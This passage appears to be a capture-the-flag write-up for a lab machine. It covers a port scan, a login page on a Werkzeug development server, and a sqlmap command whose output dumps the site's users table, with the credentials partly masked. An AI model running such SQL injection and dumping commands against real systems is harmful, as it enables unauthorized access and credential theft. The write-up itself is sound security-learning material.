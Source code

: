 Our scan identified two active/open ports, `22`, which hosts a standard OpenSSH service and `8000`, which houses a Werkzeug python. While Werkzeug is *primarily* a Python library, it has the ablity to function as a development http server for testing purposes. This is often the CTF context that it appears in.

### Manual enumeration

Visiting the Werkzeug port via a web browser immediately redirects us to `http://<target-ip>:8000/login`. 

![biblioteca-login](/images/biblioteca/login.png)

This seems to be a standard login page/form. We can register a standard account with no problem, but that doesn't get us anything other than a polite welcome message.

## SQL Injection

As we were able to register a new set of credentials, we can assume that the data is being stored somewhere. Thus, we can probe the form with SQLMap to identify whether or not it is vulnerable to an SQL injection attack.

### SQLMap
`sqlmap -u http://<target-ip>:8000/login --data 'username='test'&password='test'' --dbs --dump`

```
[13:05:47] [INFO] testing connection to the target URL
[13:05:48] [INFO] testing if the target URL content is stable
[13:05:48] [INFO] target URL content is stable
[13:05:48] [INFO] testing if POST parameter 'username' is dynamic

✂️ ................................ ✂️

[13:06:26] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:06:26] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] website

[13:06:27] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:06:27] [INFO] fetching current database
[13:06:27] [INFO] fetching tables for database: 'website'
[13:06:27] [INFO] fetching columns for table 'users' in database 'website'
[13:06:27] [INFO] fetching entries for table 'users' in database 'website'
Database: website
Table: users
[1 entry]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | s-----@email.boop | M------------ | s-----   |
+----+-------------------+----------------+----------+

```
